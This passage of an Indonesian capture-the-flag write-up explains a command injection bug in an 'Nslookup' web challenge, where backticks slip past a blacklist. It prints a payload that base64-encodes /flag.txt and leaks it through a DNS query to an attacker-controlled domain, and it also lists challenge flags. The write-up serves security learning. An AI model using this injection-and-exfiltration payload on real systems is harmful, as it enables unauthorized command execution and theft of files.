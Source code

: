   <img src="img/fetcher.png" width="500">
- **Flag:** `foresty{_r_u_the_next_cve_hunter_a8cdaf}`

---

### 2. Nslookup (Web)
- **Kerentanan:** Command Injection.
- **Deskripsi:** Aplikasi menjalankan `nslookup` menggunakan `shell=True` dengan *blacklist* karakter yang tidak lengkap. Karakter *backtick* (`)`) tidak diblokir.
- **Eksploitasi:**
  - Siapkan domain dengan *wildcard DNS* yang mengarah ke server penyerang.
    <img src="img/nslookup1.png" width="500">
  - Injeksi perintah di dalam *backtick*. Perintah `base64 /flag.txt` akan dieksekusi, dan hasilnya dikirim sebagai subdomain dalam *query* DNS.
     ```bash
     `base64 /flag.txt`.noryn.digital
     ```